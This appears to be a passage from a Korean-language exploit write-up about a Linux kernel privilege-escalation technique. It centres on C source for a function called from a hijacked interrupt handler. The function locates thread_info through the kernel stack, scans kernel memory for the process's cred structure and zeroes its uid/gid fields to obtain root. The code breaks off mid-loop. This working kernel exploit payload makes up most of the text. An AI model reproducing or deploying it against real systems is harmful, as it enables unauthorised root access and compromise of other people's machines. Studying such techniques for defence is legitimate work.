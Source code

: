 ```
```

#### fix_idt_and_overwrite_creds

Interrupt handler 에서 `fix_idt_and_overwrite_creds()` 를 call 한다. 일단 user-land 에 memcpy 로 function 을 쭉 copy 해놓긴 했는데, relative addressing 으로 런타임에 다 resolving 이 될까? 이건 좀 체크해봐야겠다. 

1. 하여튼, handler 에서 호출을 하였으니, 
2. kernel stack 에서 놀게 될 것이고, 
3. 변수들이 kernel stack 에 자리잡을테고,
4. 거기서 thread_info 를 찾아낸다.
5. ~(8192-1) 로 masking 해서.

kernel memory 를 스캔해서, heuristic 하게 cred structure 를 찾는다. 찾으면 각종 uid/gid 들을 0 으로 세팅한다. 그러면 root 가 된다.

```
static void fix_idt_and_overwrite_creds() {
    int i,j,k;

    // 동적으로 알아내야할 정보들이 있어서
    // 일단 marker 로 place 를 holding 하고.
    uint64_t uids[4] = { 
        GENERATE_MARKER(2),
        GENERATE_MARKER(3),
        GENERATE_MARKER(4),
        GENERATE_MARKER(5)
    };
    
    // kernel stacks are usually 8192 bytes on Linux.
    // thus, we can take the address of a stack allocated variable
    // and mask off a few bits to find
    // what is the base of the kernel stack
    // where the thread_info struct lives.

    // current is (hopefully) pointing at the start of thread_info 
    // which contains
    // the current task_struct pointer.
    uint8_t *current = *(uint8_t **)( ((uint64_t)uids) & (-8192) );
    // the task_struct is allocated is kernel memory.
    // grab the top 28 bits to use as an estimate
    // to determine if other addresses are kernel addresses.
    uint64_t kbase = ( (uint64_t) current) >> 36;

    uint32_t *fixptr = (void*)GENERATE_MARKER(1);
    *fixptr = -1;
    for (i=0;i<4000;i+=4){
        // hopefully, p is pointing at part of the current
        // task's task_struct
        uint64_t *p = (void*)&current[i];
        // t is pointing at the start of the memory region
        // p points to, which (hopefully) is the real_creds
        // struct in our process' task_struct
        uint32_t *t = (void*)p[0];
        // we believe that p[0] is a pointer to real_creds,
        // and so t is pointing to real_creds.
        if ( (p[0] != p[1]) || ( (p[0]>>36) != kbase))
            continue;
        for (j=0;j<20;j++) {
            // there are 8 32-bit uid/gid fields
            // that we will check
            // to ensure they match our process' uid/gid
            for (k=0;k<8;k++){
                if (((uint32_t*)uids)[k] != t[j+k]){
                    goto next;
```